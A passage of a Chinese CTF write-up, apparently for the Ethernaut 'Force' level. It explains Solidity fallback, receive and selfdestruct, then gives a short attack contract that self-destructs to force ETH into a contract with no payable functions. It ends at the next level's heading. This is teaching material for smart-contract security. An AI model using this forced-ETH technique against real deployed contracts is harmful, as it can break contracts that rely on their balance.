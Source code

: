 2. 接收以太币：当一个合约接收到以太币，但没有定义receive()函数时，fallback函数会被执行。
fallback函数的特点
- 可见性：fallback函数必须声明为external。
- 可支付性：如果希望fallback函数能够接收以太币，则必须将其声明为payable。
- Gas限制：当通过transfer或send调用时，fallback函数的Gas限制为2300(1)。
receive函数  
receive()函数是在合约收到ETH转账时被调用的函数。一个合约最多有一个receive()函数，声明方式与一般函数不一样，不需要function关键字：receive() external payable { ... }。receive()函数不能有任何的参数，不能返回任何值，必须包含external和payable。
当合约接收ETH的时候，receive()会被触发。receive()最好不要执行太多的逻辑因为如果别人用send和transfer方法发送ETH的话，gas会限制在2300，receive()太复杂可能会触发Out of Gas报错  
fallback和receive的区别  
receive和fallback都能够用于接收ETH，他们触发的规则如下：  
触发fallback() 还是 receive()?    
           接收ETH  
              |  
         msg.data是空？  
            /  \  
          是    否  
          /      \  
receive()存在?   fallback()  
        / \  
       是  否  
      /     \  
receive()   fallback()  
简单来说，合约接收ETH时，msg.data为空且存在receive()时，会触发receive()；msg.data不为空或不存在receive()时，会触发fallback()，此时fallback()必须为payable。  
receive()和payable fallback()均不存在的时候，向合约直接发送ETH将会报错（你仍可以通过带有payable的函数向合约发送ETH）。  
资料来源https://github.com/AmazingAng/WTF-Solidity/tree/main/19_Fallback  
Selfdestruct   
Selfdestruct 如同字面意思，用于销毁合约的函数，是唯一清除合约的方法，并且会将合约内剩余的所有 Ether 转移到指定的地址上。当调用它的时候，它会使该合约无效化并删除该地址的字节码，然后它会把合约里剩余的资金发送给参数所指定的地址，比较特殊的是这笔资金的发送将无视合约的fallback函数。
使用方法：selfdestruct(address payable recipient); recipient是一个有效的ETH地址.  
### 解题思路
题目中的force合约没有任何代码，因此直接向合约转账会报错，所以只能使用Selfdestruct函数  
只需要在自己的合约中放入一些ETH，然后调用Selfdestruct函数，就可以对题目中的合约发动攻击了  
### 解题过程
1.获取实例中的合约地址  
2.在remix部署攻击合约  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
contract hackForce {
    uint public balance = 0;
    //存入ETH
    function deposit() external payable {
        balance += msg.value;
    }
    //自毁函数
    function hack(address payable _to) external payable {
        selfdestruct(_to);
    }
    
}
```
3.先调用deposit函数向攻击合约中转一些ETH  
4.调用攻击函数  
5.检查题目合约地址的ETH数量  
6.提交  
### 第八题 Vault
### 题目